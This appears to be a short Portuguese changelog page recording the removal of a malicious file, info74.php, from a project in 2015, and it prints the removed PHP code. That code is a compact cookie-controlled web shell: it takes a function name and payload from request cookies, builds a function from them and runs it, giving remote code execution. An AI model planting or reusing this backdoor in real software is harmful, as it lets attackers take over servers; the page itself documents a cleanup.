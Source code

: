 ```yaml
---
id: doc22
title: Arquivos Maliciosos
sidebar_label: COD 2015-06-17:20
---
```


## 20.0.0 - 2015-06-17

### Fixed

- Removido arquivo info74.php com código malicioso

## Código

```php

<?php

$rjm=$_COOKIE;
$edfi=$rjm[cgva];
if($edfi){
	$uamy=$edfi($rjm[daxe]);$jjxj=$edfi($rjm[vuie]);$jelh=$uamy("",$jjxj);$jelh();
}

```


